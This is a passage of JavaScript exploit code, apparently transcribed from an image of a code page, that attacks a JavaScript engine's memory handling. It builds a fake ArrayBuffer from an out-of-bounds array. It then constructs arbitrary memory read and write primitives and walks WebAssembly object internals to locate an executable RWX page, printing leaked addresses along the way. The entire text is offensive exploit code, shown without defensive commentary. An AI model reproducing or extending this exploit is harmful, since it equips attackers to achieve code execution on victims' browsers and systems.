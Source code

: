 ```
    objArray.target=objPara;
    return f2i(oobArray[ObjectIdx]);
}

var abMapProtoAddr = addrOf(ab.__proto__);
var abMapConstructAddr = abMapProtoAddr - 0x70;
print("[+] ArrayBuffer Map prototype addr: 0x"+hex(abMapProtoAddr -1));
print("[+] ArrayBuffer Map Constructor addr: 0x"+hex(abMapConstructAddr-1));
fakeABMap[3] = i2f(abMapProtoAddr);
fakeABMap[4] = i2f(abMapConstructAddr);
//%DebugPrint(fakeAB);
//%SystemBreak();

var fakeABMapAddr = addrOf(fakeABMap) + 0x30; // elements addr of fakeABMap
print("[+] fake ArrayBuffer Map addr: 0x"+hex(fakeABMapAddr-1));
//%DebugPrint(fakeAB);
//%SystemBreak();
fakeAB[0] = i2f(fakeABMapAddr);


var fakeABAddr = addrOf(fakeAB) + 0x30 ; // elements addr of fakeAB
print ("[+] fake ArrayBuffer addr: 0x"+hex(fakeABAddr - 1));
//%SystemBreak();

oobArray[ObjectIdx] = i2f(fakeABAddr);
var fakeABObj=objArray.target;
//%DebugPrint(fakeABObj);
//%SystemBreak();
var dataView = new DataView(fakeABObj);
// aar primitive
function dataViewRead64(addr)
{

    fakeAB[4] = addr; // overwrite fakeAB[4], which is corresponding to backing store pointer
    return f2i(dataView.getFloat64(0, true));
}

// aaw primitive
function dataViewWrite(addr, payload)
{

    fakeAB[4] = addr;

    for (let i=0; i<payload.length; i++) {
        dataView.setUint8(i, payload[i]);
    }
    return ;
}

func = wasm_func();

var wasmObjAddr = addrOf(func);
var sharedInfoAddr = dataViewRead64(i2f(wasmObjAddr+0x18-1));
var wasmExportedFunctionDataAddr = dataViewRead64(i2f(sharedInfoAddr+8-1));
var instanceAddr = dataViewRead64(i2f(wasmExportedFunctionDataAddr+0x10-1));
var rwxAddr = dataViewRead64(i2f(instanceAddr+0xe0-1));

print("[+] wasm obj addr: 0x"+hex(wasmObjAddr));
print("[+] wasm shared info addr: 0x"+hex(sharedInfoAddr));
print("[+] wasmExportedFunctionData addr addr: 0x"+hex(wasmExportedFunctionDataAddr));
print("[+] instance  addr: 0x"+hex(instanceAddr));
print("[+] rwx addr: 0x"+hex(rwxAddr+0x12));

```